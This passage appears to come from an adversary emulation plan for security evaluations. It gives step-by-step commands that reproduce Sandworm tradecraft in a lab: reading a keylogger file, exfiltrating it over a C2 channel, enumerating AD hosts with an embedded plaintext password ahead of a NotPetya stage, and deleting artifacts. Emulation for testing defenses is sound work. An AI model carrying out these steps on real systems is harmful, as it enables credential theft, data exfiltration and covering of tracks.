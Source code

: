 You must type this data manually to exercise the keylogger (caveat: if you fail to enter the password on the first try, just copy/paste it).

Give arrakis a minute to load, then sign out of the RDP session: `Right-click Windows icon -> Shut down or sign out -> Sign out`

Keep the gammu RDP session open.

:warning: Go back to your control server terminal.

Confirm the keylogger log file exists:

```bash
./evalsC2client.py --set-task Exaramel-Windows "exec-cmd dir C:\\Windows\\System32\\mslog.txt"
```

Confirm the keylogger actually logged keystrokes:

```bash
./evalsC2client.py --set-task Exaramel-Windows "exec-cmd type C:\\Windows\\System32\\mslog.txt"
```

[Source Code](../../Resources/Exaramel-Windows/taskhandler/taskhandler.go#L17)

Exfil the keylog file over the Exaramel-Windows C2 session (HTTPS).

:warning: Exaramel-Windows automatically RC4 encrypts the keylog file before exfiltration.

```bash
# Exaramel for Windows automatically encrypts files before sending them to the C2 server.

./evalsC2client.py --set-task Exaramel-Windows "put-file C:\\Windows\\System32\\mslog.txt"
```

[Source Code](../../Resources/Exaramel-Windows/taskhandler/taskhandler.go#L94)

Confirm you uploaded the keylog file; you should see an RC4 encrypted blob.

```bash
cat files/mslog.txt
```

Terminate the keylogger

```bash
./evalsC2client.py --set-task Exaramel-Windows "exec-cmd taskkill /F /IM mslog.exe"
```

Enumerate all domain hosts (prep for notpetya deployment)

```bash
# Sandworm Team has used a tool to query Active Directory using LDAP, discovering information about computers listed in AD.

./evalsC2client.py --set-task Exaramel-Windows "exec-cmd dsquery.exe computer -s 10.0.1.4 -u patreides -p ebqMB7DmM81QVUqpf7XI"
```

Cleanup artifacts.

```bash
# Sandworm Team has used backdoors that can delete files used in an attack from an infected system.

./evalsC2client.py --set-task Exaramel-Windows "exec-cmd del /Q C:\\Windows\\System32\oradump.exe C:\\Windows\\System32\\mslog.exe C:\\Windows\\System32\\mslog.txt"
```
